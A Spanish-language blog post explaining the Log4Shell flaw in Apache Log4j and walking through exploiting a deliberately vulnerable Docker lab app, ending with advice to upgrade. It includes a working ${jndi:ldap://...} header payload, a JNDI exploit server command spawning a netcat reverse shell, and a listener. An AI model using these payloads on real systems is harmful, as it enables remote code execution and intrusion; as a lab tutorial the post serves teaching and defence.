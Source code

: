 ```yaml
---
title: "Acerca de log4shell"
date: 2025-06-07T10:30:00-06:00
draft: false
tags: ["Java","Backend"]
---
```


log4shell es una falla en Apache Log4j que permite que atacantes puedan ejecutar comandos maliciosos desde servidores LDAP maliciosos, esta vulnerabilidad en sus principios fue un 0 day y debido a que log4j  se encuentra en muchas aplicaciones como minecraft, Struts2, Flink entre otros su impacto ha sido muy grande.

### Como Funciona?
 
Para esta vulnerabilidad en forma de prueba de concepto existe en github una aplicación vulnerable [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) 

```
git clone https://github.com/christophetd/log4shell-vulnerable-app.git
docker run --name vulnerable-log4 -p 8081:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

![Name](/images/1d851fb4f2c85bf3e0498b263832fa16012931205a239a371f42cefc5ec6ca576036b9915ebd7849c48426f3c069cdcbb5b54bf2455dc724602eaca20ae1eb6c.png)


una vez descargado vamos analizar el código para ver en qué forma puede ser vulnerable 

![Name](/images/ace1c5899b23dc855876d6112b119c70a086b6c3696d7c36e5b5fc90300c8635d746d5c23d88c1bf4f2097b42602334d82ed4d42026256a53e82f48f2908e1d0.png)

La parte que nos interesa es: 

```java
    @GetMapping("/")
    public String index(@RequestHeader("X-Api-Version") String apiVersion) {
        logger.info("Received a request for API version " + apiVersion);
        return "Hello, world!";
    }

```
Y en especial esta ya que es la parte vulnerable : 

```java

logger.info("Received a request for API version " + apiVersion);
```

después vamos a necesitar un servidor LDAP que nos permita ejecutar los comandos  [https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)  


```
java -jar JNDI-Injection-1.0-SNAPSHOT-all.jar -C "nc 172.17.0.1 4444 -e /bin/sh" 
nc -lvp 4444
```

![Name](/images/8b704fcf71dbb7ed35fde12e48b6702579dcea428aba4300bca4b2b8121304bec29426740971334b5fd1d2f67a0556bbd8e2256f623cffd925fceba73caaefed.png)

Solo hacemos un http request con el header X-Api-Version y con la dirección que nos proporcionó JNDI Injection


``` http 
GET / HTTP/1.1
Host: 192.168.1.141:8081
X-Api-Version: ${jndi:ldap://172.17.0.1:1389/zlrpms} 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```



![Name](/images/d95ee3cf726654238c8d22e1bd33dc9ef77e30f140abd9200f28397d0bd713247747c1f2aa70d503c237969780ceac41b9e8311108044fc84c960710c28433f4.png)


![Name](/images/40068b8357a248e64f7103c590e433798614cc565f55a3d07a81a5ef5dbc868bac37cb6cc696f2495e53719253fe2ed82070cfa31e6b09ae7e8ada788d881be5.png)


debido a que la vulnerabilidad ya se encuentra arreglada en las nuevas versiones de Log4j  solo queda actualizar 




